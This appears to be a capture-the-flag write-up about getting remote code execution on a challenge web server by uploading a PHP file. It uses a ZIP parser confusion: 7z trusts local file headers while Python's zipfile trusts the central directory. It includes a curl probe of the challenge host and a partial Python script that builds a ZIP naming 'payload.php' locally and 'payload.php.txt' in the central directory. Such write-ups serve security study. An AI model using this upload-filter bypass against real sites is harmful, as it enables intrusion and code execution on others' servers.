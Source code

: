 check file received:
curl -i 'http://web2.cscv.vn:8000/gateway/health/?module=/storage/876f2431-b276-4ba2-8c10-3e162d86371d/1.txt'

<img width="2071" height="430" alt="image" src="https://github.com/user-attachments/assets/69aa18b8-4b82-401c-884c-2d91da4bf6dc" />

Where is vulnerability this website ????
how to upload a file .php bypass filter to rce


filezip(format)(https://en.wikipedia.org/wiki/ZIP_(file_format))


Local File Headers (LFH): These are little “stickers”. Each zipped file will have one of these “stickers” right before its data. It describes the file (e.g. name, size).

File Data: This is the actual contents of the files (like your 3.php code).

Central Directory (CD): This is the “table of contents” or “master inventory” at the bottom of the entire ZIP file. It lists all the files contained in the ZIP.


Analyze carefully at storage.php in src app2 , we can see that , when a file uploaded , it unzip as 7z , you can known that when 7z unzip ,7z only sees Local File Header (LFH) and python's checkfile() relies on Central Directory - CD . how if we create a file with Central Directory is payload.php.txt to scam python'zip and use Local File Headers with name is payload.php to excute apache

script create a file with (Local File Headers - LFH) is payload.php and Central Directory (CD) payload.php.txt by AI
```
import struct
import io
import zlib
import os
import zipfile

def create_confused_zip(php_payload_content, output_zip_path):
    if isinstance(php_payload_content, str):
        php_code = php_payload_content.encode('utf-8')
    else:
        php_code = php_payload_content

    crc32 = zlib.crc32(php_code) & 0xFFFFFFFF
    compressed_size = len(php_code)
    uncompressed_size = len(php_code)
    
    output = io.BytesIO()
    
    local_filename = b'payload.php'
    
    local_header = b'PK\x03\x04'
    local_header += b'\x14\x00'
    local_header += b'\x00\x00'
    local_header += b'\x00\x00'
    local_header += b'\x00\x00\x00\x00'
    local_header += struct.pack('<I', crc32)
    local_header += struct.pack('<I', compressed_size)
    local_header += struct.pack('<I', uncompressed_size)
    local_header += struct.pack('<H', len(local_filename))
    local_header += b'\x00\x00'
    local_header += local_filename
    
    output.write(local_header)
    output.write(php_code)
    
    cd_offset = output.tell()
    
    central_filename = b'payload.php.txt'
```